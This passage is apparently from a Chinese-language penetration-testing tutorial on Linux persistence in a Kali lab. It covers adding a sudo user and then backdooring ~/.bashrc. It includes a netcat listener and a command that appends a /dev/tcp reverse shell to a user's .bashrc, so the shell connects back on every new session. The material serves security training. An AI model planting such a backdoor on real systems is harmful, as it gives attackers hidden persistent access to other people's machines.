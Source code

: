 +   **-m** ：创建主目录

+   **-s** ：将登录 shell 设置为**bash**

+   **usermod -aG** ：将用户添加到**sudo**组

+   **chpasswd** ：设置密码

让我们看看这个操作是如何进行的：

![图 12.4 – 添加具有完全 sudo 权限的新用户的过程](img/B22229_12_04.jpg)

图 12.4 – 添加具有完全 sudo 权限的新用户的过程

添加新用户是一个比较显眼的操作，可能会被注意到。如果你只是给现有用户添加一个后门 shell，则可能不容易被发现。接下来我们将探讨这种技术。

## 给 Bash shell 添加后门

**~/.bashrc** 文件会在每次打开新的交互式 Bash shell 时执行。我们可以在这里添加命令。

在继续之前，退出**bashdoor**的终端会话，以便返回到**user1**的提示符。接下来，在 Kali 终端中输入以下命令，确保你已经准备好接收反向 shell：

```
 $ nc -nlvp 5555
```

在**user1**的 shell 中，输入以下命令，并用你自己的 IP 地址和端口替换：

```
 $ echo "(/bin/bash -i >& /dev/tcp/192.168.56.101/5555 0>&1) &" >> ~/.bashrc
```
